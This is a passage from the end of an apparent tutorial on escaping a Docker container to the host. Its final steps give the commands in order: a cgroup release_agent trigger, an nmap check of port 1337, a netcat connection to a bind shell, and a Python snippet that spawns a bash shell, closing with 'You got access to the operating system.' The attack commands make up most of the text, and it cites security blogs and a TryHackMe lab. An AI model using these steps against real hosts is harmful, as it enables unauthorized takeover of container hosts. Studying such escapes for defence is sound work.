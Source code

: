 	
	`sh -c "echo \$\$ > /tmp/cgrp/child/cgroup.procs"`
	
8. Now, check the status of port 1337 by scanning the IP of the operating system

	`nmap -Pn 192.168.2.44 -p 1337`
	
You could see the status is open. Now is the time to connect to the bind shell which is waiting for our connection.

9. Use netcat to connect to the port 1337

	`nc 192.168.2.44 1337`
	
10. Once you are connected to the socket, spawn a bash shell using following snippet, then press **ctrl+D** (Don't press enter) to send EOF signal.

	`import pty,os;os.dup2(r.fileno(),0);os.dup2(r.fileno(),1);os.dup2(r.fileno(),2);pty.spawn("/bin/bash");s.close()`

and BOOM! You got access to the operating system.

---

References:

1. https://blog.atucom.net/2017/06/smallest-python-bind-shell.html	[Smallest Python Bind Shell]
2. https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/	[SYS_ADMIN Exploit Breakdown]
3. https://docs.docker.com/engine/api/sdk/examples/	[Communicating with docker.sock using unix sockets]
4. https://docs.docker.com/engine/api/v1.41/#tag/Exec	[Creating and starting an exec instance on already running container using HTTP]
5. https://tryhackme.com/room/dockerrodeo	[Docker Registry, Reverse Engineering docker images]
